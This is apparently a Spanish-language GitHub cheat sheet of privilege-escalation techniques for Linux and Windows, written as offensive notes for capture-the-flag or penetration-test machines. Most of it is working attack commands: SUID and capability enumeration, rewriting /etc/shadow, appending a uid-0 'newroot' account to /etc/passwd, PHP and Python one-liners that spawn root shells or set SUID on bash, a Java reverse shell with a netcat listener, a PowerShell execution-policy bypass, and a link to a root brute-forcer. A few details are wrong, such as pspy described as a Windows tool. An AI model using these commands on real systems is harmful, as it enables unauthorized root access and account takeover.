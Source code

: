 <h1 align="center">Escalada de privilegios</h1>

## **HERRAMIENTAS ÚTILES**

- **GTFOBins:** Un repositorio de técnicas de escalada de privilegios y ejecución de comandos utilizando binarios de Unix.

### **Comprobar Comandos Sudo**

- sudo -l

### **Buscar Contraseñas en Archivos de Configuración**

- ls /var/www/html
- Revistar archivos php y conf

### **Crontab**

Buscar en crontab archivos que se ejecuten como root y que podamos editar:

- crontab -l
- ls /etc/cron\*

**Enumerar Variables de Entorno**

El comando env muestra todas las variables de entorno de la shell. Podría incluir información sensible, como contraseñas:


### **Enumerar Información del Sistema**

Enumerar rutas interesantes:

- ls -lsaht /opt | /tmp | /var/tmp | /var/backups | /var/mail | /dev/shm

Enumerar información del sistema para encontrar posibles vulnerabilidades:

- uname -a
- cat /etc/\*-release
- file /bin/bash

### **Permisos SUID**

Buscar archivos con permisos SUID:

- find / -perm /4000 2>/dev/null

### **Buscar Archivos con Permisos de Escritura y lectura**

Buscar archivos y directorios que tienen permisos de escritura para todos los usuarios:

- find / -not -type l -perm -o+w 2>/dev/null
- find / -not -type l -perm -o+r 2>/dev/null|grep /etc/shadow

###

### **Modificar /etc/shadow**

Si tienes permisos de escritura en /etc/shadow, puedes generar una nueva contraseña para root:

- openssl passwd -1 -salt abc password

Reemplazar la entrada de root en /etc/shadow con la nueva contraseña.

### **Crear enlace simbólico**

Creando un enlace simbólico desde nuestro directorio de trabajo al de root:

- ln -s /root rooter

Y ahora desde mi equipo intento leerla:

- curl <http://192.168.1.26:3333/jan/rooter/root.txt>

### **Capabilities**

- /usr/sbin/getcap -r / 2>/dev/null

Este comando recorrerá todos los archivos del sistema y mostrará sus capacidades, si las tienen. Se pueden explotar desde GTFObins en capabilities copiando en comando

### **Ver archivos con Nmap**

- nmap -iL \*ruta\*

### **Ver si un archivo se esta ejecutando en el script de otro archivo (Tareas programadas)**

- grep -nri “/tmp/message” / 2>dev/null

Busca de forma recursiva si en /usr hay algun script que mencione el archivo “/tmp/message”

### **Script para fuerza bruta al usuario root**

<https://github.com/d4t4s3c/suForce>

##

## **EJEMPLOS DE ESCALADA**

### **Escalada con Python**

Si tienes permisos de escritura en el script, edítalo para incluir una línea que proporcione una bash con privilegios de root.

- import os

os.system(“/bin/sh”)

Si no puedes editar el script, puedes eliminarlo y crear uno nuevo con el mismo nombre, ejemplo:

<https://romabri.github.io/Library>

###

### **Escalada con grep y cut**

Si dispones de permisos como root en grep y cut haciendo sudo -l, puedes ver archivos que sólo root puede ver

### **Escalada con Java**

Si tienes permisos de root en Java:

1. Crear un archivo revershell.java que contenga la reverse shell.
2. Ejecutarlo con java como sudo

- sudo /usr/bin/java revershell.java

1. Escuchar la conexión en la máquina local:

- nc -lvnp &lt;puerto&gt;

### **Escalada con PHP**

Si puedes ejecutar PHP como otro usuario usando sudo, ejecuta el siguiente comando para abrir una terminal con el usuario indicado.

- sudo -u chocolate /usr/bin/php -r 'system("/bin/sh");

![image](https://github.com/user-attachments/assets/29ead444-3a83-4584-ba0e-b824fe090d9e)


Si puedes ejecutar PHP como root, ejecuta el siguiente comando para conceder permisos SUID al bash. Cuando el bash se ejecute obtendrás una terminal con el usuario root

- echo '&lt;?php exec("chmod 4755 /bin/bash"); ?&gt;' > /opt/script.php

##

### **Escalada con chown**

- LFILE=/etc/passwd
- sudo chown $(id -un):$(id -gn) $LFILE
- openssl passwd hola123
- echo 'newroot:$1$EBhVbkUV$zW3uLFiknxfdzUV5OjQZ40:0:0::/home/newroot:/bin/bash' >> /etc/passwd
- su newroot


## **AUTOMATIZAR ESCALADA EN WINDOWS**

### **PSPY64**

Es una herramienta diseñada para monitorear procesos y detectar configuraciones incorrectas que podrían permitir la escalada de privilegios en sistemas Windows.

<https://github.com/DominicBreuker/pspy>

### **LOCAL_EXPLOIT_SUGGESTER (metasploit)**

![image](https://github.com/user-attachments/assets/5deee4e3-d5bc-4d19-a563-2b4783a783a3)

Seleccionamos uno de ellos, en este caso ms16_014_wmi_recv_notif, rellenamos los campos y establecemos la sesion meterpreter con altos privilegios


También existe esta misma herramienta en github que contiene el manual de uso:

<https://github.com/AonCyberLabs/Windows-Exploit-Suggester>

### **PRIVESC CHECK**

Existe un script en PowerShell que enumera las credenciales de otros usuarios y posibles vías de escalada de privilegios.

Clonar repositorio:

<https://github.com/itm4n/PrivescCheck.git>

Transferir el repositorio clonado a la máquina Windows vulnerada y posicionarnos dentro de la carpeta clonada. Una vez ahí ejecutar el siguiente comando:

- powershell -ep bypass -c ". .\\PrivescCheck.ps1; Invoke-PrivescCheck"

![image](https://github.com/user-attachments/assets/bfd3fdb0-ad3f-4423-afe3-306b1131bbd6)

## **AUTOMATIZAR ESCALADA EN LINUX**

### **LINPEAS**

Es una herramienta que busca en el sistema configuraciones incorrectas y vulnerabilidades que pueden permitir la escalada de privilegios.

<https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS>

